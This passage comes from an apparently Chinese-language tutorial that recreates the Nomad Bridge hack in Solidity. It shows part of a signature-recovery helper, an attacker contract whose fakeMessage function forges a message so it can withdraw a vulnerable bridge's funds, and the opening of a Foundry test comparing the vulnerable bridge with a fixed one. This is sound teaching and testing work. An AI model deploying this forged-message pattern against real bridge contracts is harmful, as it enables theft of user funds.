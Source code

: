 ```solidity
        require(sig.length == 65, "invalid signature length");

        bytes32 r;
        bytes32 s;
        uint8 v;

        assembly {
            r := mload(add(sig, 32))
            s := mload(add(sig, 64))
            v := byte(0, mload(add(sig, 96)))
        }

        return ecrecover(message, v, r, s);
    }

    /// @notice 合约余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

`Attacker.sol` 是一个模拟攻击者的智能合约，它通过调用 `VulnerableBridge` 的 `process` 函数，绕过了验证机制，实现了对合约余额的提款。  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "./VulnerableBridge.sol";

/// @title 攻击合约 - 模拟 Nomad Bridge Hack
contract BridgeAttacker {
    VulnerableBridge public bridge;
    address public owner;

    constructor(address _bridge) {
        bridge = VulnerableBridge(_bridge);
        owner = msg.sender;
    }

    /// @notice 假造一笔消息，直接提走资金
    function fakeMessage(bytes32 fakeTxHash, uint256 amount) external {
        bridge.process(fakeTxHash, owner, amount);
    }
}
```  

`NomadFixTest.t.sol` 是一个测试脚本，用于模拟攻击者对 `VulnerableBridge` 的攻击。  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/VulnerableBridge.sol";
import "../src/SecureBridge.sol";
import "../src/BridgeAttacker.sol";

/// @title Nomad Bridge 修复对比测试
contract NomadFixTest is Test {
    VulnerableBridge vulnBridge;
    SecureBridge secureBridge;
    BridgeAttacker attacker;

    address deployer = address(0x1234);
```